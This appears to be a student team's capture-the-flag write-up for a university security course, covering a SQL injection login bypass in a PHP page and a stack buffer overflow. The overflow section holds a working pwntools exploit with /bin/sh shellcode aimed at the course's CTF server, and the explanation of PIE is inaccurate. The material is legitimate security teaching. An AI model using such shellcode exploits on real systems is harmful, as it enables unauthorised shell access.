







# CTFs - Week 8 / 9
______________

# Task 1

## Vulnerability

Analysing the source code within the file given (index.php), we can see that there's a SQL injection opportunity within lines 40 to 42, since the query used is a plain String and is not prepared utilizing PHP API's.

## Exploit to login as admin

To login and admin, we prompted into the username input space the following string: 



Note: since that password field is required to proceed the login form, we can simply input an arbitrary value, for example '123456789'.

And with that, we are granted login to the admin page and we encounter our flag.

  

____________

# Task 2

## Checksec - relevant information

  

#### What is PIE?
Also know as Position-Independent Executable, this is a security feature that prevents the execution of code from a fixed memory location. This is done by randomizing the memory location of the code, which makes it harder for an attacker to exploit the program.

We also noted that NX was disabled, that means that we are able to execute writeable memory.

## Vulnerability

## GDB - Memory Offsets

The next step is to determine the offset between the **ebp** and the **buffer** in memory.

Initially after trying to run the program using GDB, we encounter the following error:
 

This means that the generated output binary file still had it's default permissions, which are set to read-only, and thus we needed it to be executable. To do so, we ran the following command:
```bash
chmod +x program
```

1. We added a breakpoint on line 12, and then we run the program:
  
2. After that, we executed the program using run, and determinted the addresses of both **ebp** and **buffer**:
  

Now we know we can calculate the distance between the two:
```
0xffffd038 – 0xffffcfd0 = 0x68 = 104 bytes
```

This means that the returns address is **104 + 4 (108) bytes** away from the start of the buffer.

## Exploit

To wrap it up, after some search online, we found a template, that we adapted to our needs, for a simple exploit that uses a library names pwntools, which is a python library that makes it easier to exploit binaries:
```python
from pwn import *

e = context.binary = ELF("./program")
p = remote("ctf-fsi.fe.up.pt",4001)

# Gets the buffer address as a Integer
p.recvuntil("buffer is ")
stack_base = int(p.recv(10),16)
# print(hex(stack_base))

# shellcode to open /bin/sh
payload = (
  '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f'
  '\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31'
  '\xd2\x31\xc0\xb0\x0b\xcd\x80'
).encode('latin-1') # 27 bytes

# fills the payload with 'junk'
payload = payload.ljust(108,b'$')
# overwrite return address
payload += p32(stack_base) 

p.sendline(payload)
# opens interactive mode
p.interactive()
```

The exploits consists of:
1. Getting the base address of the stack
2. Inject the shellcode into the payload
3. Fill the payload with junk until we arrive at the **EIP** (retun address)
4. Append to the final of the payload the leaked base address
5. After that, our code should be redirected to the shell code, meaning we have acess to a shell, and with that, we are able to obtain our flag

  

____________

# Submitted Flags
- **CTF 1** --> flag{3a8b687081ff43602559a817074a0332}
- **CTF 2** --> flag{11b9c1ebd2c2ada47feb37e5c9316449}

____________

# Group 7, 03/10/2022
 
* Afonso Jorge Farroco Martins, up202005900@fe.up.pt
* Eduardo Filipe Leite da Silva, up202005283@fe.up.pt
* José Diogo Pinto, up202003529@fe.up.pt